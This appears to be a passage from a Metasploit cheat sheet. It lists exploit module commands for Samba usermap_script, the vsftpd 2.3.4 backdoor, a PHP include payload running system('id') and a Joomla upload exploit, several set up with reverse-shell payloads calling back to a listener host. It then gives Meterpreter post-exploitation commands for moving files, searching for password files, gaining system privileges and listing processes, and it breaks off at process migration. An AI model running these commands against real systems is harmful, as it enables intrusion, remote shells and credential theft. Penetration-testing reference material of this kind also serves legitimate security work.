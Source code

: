 ### Linux
```bash
# Samba usermap_script
use exploit/multi/samba/usermap_script
set RHOST 192.168.1.1
set PAYLOAD cmd/unix/reverse
set LHOST 192.168.1.100
exploit

# vsftpd 2.3.4 Backdoor
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOST 192.168.1.1
exploit
```

### Web Applications
```bash
# PHP include
use exploit/unix/webapp/php_include
set RHOST 192.168.1.1
set PATH /vulnerable.php
set PHPCODE '<?php system("id"); ?>'
exploit

# Joomla com_media
use exploit/multi/http/joomla_media_upload_exec
set RHOST 192.168.1.1
set LHOST 192.168.1.100
exploit
```

## Meterpreter

### File System
```bash
# Basic commands
pwd
cd /path
ls
cat file.txt
upload /local/file.txt /remote/
download /remote/file.txt /local/

# Search for files
search -f *.txt
search -f "*password*" -d /home
```

### System Commands
```bash
# System info
sysinfo

# Get UID
getuid

# Get system privileges
getsystem

# List processes
ps

# Migrate to process
```